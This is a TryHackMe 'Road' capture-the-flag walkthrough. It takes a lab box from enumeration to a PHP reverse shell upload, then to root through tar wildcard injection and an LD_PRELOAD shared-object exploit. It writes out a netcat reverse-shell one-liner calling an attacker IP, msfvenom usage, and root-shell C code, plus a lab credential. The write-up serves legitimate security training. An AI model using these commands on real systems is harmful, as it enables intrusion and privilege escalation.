 ```yaml
---
date: 2025-02-13
categories: [CTF, THM]
title: "THM - Road"
tags: ['gobuster', 'linux', 'linux setuid', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell']

description: "Road - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Road

NMAP
```bash
sudo nmap 10.10.79.100 -A
```

![image1](../resources/ed395c99dd32449aa81a2f2467a8a6c4.png)

- Directory scan:
```bash
gobuster dir -u http://10.10.79.100 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```

![image2](../resources/82e700da08674d67895a5a588727f6e6.png)

- Registered an account and logged in  `http://10.10.54.102/v2/admin/login.html`


![image3](../resources/6e3779b9535040c7b71c85d7ddb77f1a.png)

- On the Profile page we can upload a file (but only admins can atm)

![image4](../resources/d8587e7e31214b9da68140be037cb31d.png)

- But found an admin email:
**admin@sky.thm**

- The only other button that works is the ResetUser button

![image5](../resources/9b034d03f1384e24820ec1ef12a29442.png)

- But looks like we can only reset our own password

- Open Burp and see if we can intercept the traffic

![image6](../resources/fc26e2830a574013925477485289ed05.png)


![image7](../resources/c1b982308e6049939558a4f40141e90d.png)

- Change the email to **admin@sky.thm** and send


![image8](../resources/86256cf6a2f04693a38699c40914103e.png)

- Got a 200 response code OK


![image9](../resources/049e417e9a6e44a0bf0acd3eb52a080c.png)

- Log in with admin@sky.thm


![image10](../resources/9d443c901bb4461f8bc8b9e6fd451bdd.png)

- If we now go to Profile and scroll to the bottom - we can upload a file


![image11](../resources/e1c3f363b5804e9b9ca5ba8465a10413.png)

- I jumped straight in with a **php_reverse_shell.php** - and uploaded it  
  It didn't give an error but didn't say successful either

- Set up nc:
```bash
rlwrap -cAr nc -lvnp 4445

```
- Inspecting the current profile picture

![image12](../resources/66bac46272ae427ba0e01bfbe7cd5333.png)

and trying to use that path to get a shell back - Failed

- Inspecting the profile page's source - showed a different path, that's been commented out
**/v2/profileimages/**


![image13](../resources/5d87c6111ad54c8db42d403728f7b492.png)

- Using that path  `http://10.10.54.102/v2/profileimages/php_reverse_shell.php`

- Got a shell

![image14](../resources/e40efe44a9e549338f837022047a55f2.png)

- Upgrade shell:
```bash
# In reverse shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

#Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
export SHELL=bash
export TERM=xterm
stty cols 236 rows 59
alias ls='ls --color=auto'
reset
clear

#ENTER
#ENTER
```

- cat user flag

- Check what users are on the server:
```bash
getent passwd

```

![image15](../resources/c1719ba2e2dd48ee849222095bd72f18.png)

```bash
ss -tulpn

```

![image16](../resources/ed8f051894624a3ca803f51078778e05.png)

- Tried connecting to mysql

![image17](../resources/f06981d54c8d4fd3a2d371aeed1add92.png)

- Connected to mongo with no credentials

![image18](../resources/08020e0dd4cd44469b418fadb3ef6d35.png)


![image19](../resources/4b74c435bdd749fea81448e68cac8d93.png)


![image20](../resources/295fd00cfb6a4f059eb941a9a18be853.png)

- Got **webdeveloper : BahamasChapp123!@#**

- SSH with creds:
```bash
ssh webdeveloper@10.10.54.102

sudo -l

```

![image21](../resources/2306faba66b740b59bec38770b6ccd75.png)

```bash
id

```

![image22](../resources/47c5cce869a14a2794e5aae5f6f47d0d.png)

Tried sudo su as webdeveloper is in sudo group


![image23](../resources/c9e70ac1e0204bd0aef10ed58122caac.png)

sky_backup_utility is owned by root


![image24](../resources/0d095f391e9245b6a29a19885cea129e.png)

```bash
strings /usr/bin/sky_backup_utility

```

![image25](../resources/7081ddeac48341cca1ada3d1036fe9ed.png)

```bash
tar -czvf /root/.backup/sky-backup.tar.gz /var/www/html/
```

We can see that this is a backup script ELF file. So it must run regularly.

It backs up all of the contents in /var/www/html/**\*** to /root/.backup/sky-backup.tar.gz

We can exploit the wildcard **\*** to priv esc

- On KALI - Create a raw netcat reverse shell:
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.24.66 lport=4444 R

```
- Copy the raw shell:
```bash
mkfifo /tmp/mzdqoeb; nc 10.8.24.66 4444 0</tmp/mzdqoeb | /bin/sh >/tmp/mzdqoeb 2>&1; rm /tmp/mzdqoeb

```
- Set up nc listener
```bash
rlwrap -cAr nc -lvnp 4444

```
- Go back to www-data shell
```bash
cd /var/www/html/

echo "mkfifo /tmp/mzdqoeb; nc 10.8.24.66 4444 0\</tmp/mzdqoeb \| /bin/sh \>/tmp/mzdqoeb 2\>&1; rm /tmp/mzdqoeb" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

tar cf archive.tar *

```

- Got a shell - but it's www-data - tried with webdeveloper as well but didn't get root

![image26](../resources/767d8ca5beb04d6db74420f98a4c866e.png)

- Looking at sudo -l again


![image27](../resources/daf51bfc2dfe458f9ec7de2add84f7e4.png)

- **env_keep+=LD_PRELOAD** is set
- And we can run a binary as sudo (/usr/bin/sky_backup_utility)

<https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/>


![image28](../resources/ecf14855710946f49d6dc536accc5b2e.png)


![image29](../resources/7dcd27de6359416e827c072e71770d72.png)

- Exploit LD_PRELOAD:
  - On webdeveloper shell

```bash
cd /tmp
nano shell.c
```

```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD"); // Prevent recursion
    setgid(0);              // Set group ID to root
    setuid(0);              // Set user ID to root
    system("/bin/sh");      // Spawn a root shell
}
```

![image30](../resources/7383a540efea442fa0a9923e8931221b.png)

Save file

- Compile c file:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility #Because we can execute /usr/bin/sky_backup_utility as root
```

- Got root shell

![image31](../resources/ea90e1f2f5674f818fcde6f56c1365cf.png)

```bash
cat root.txt

```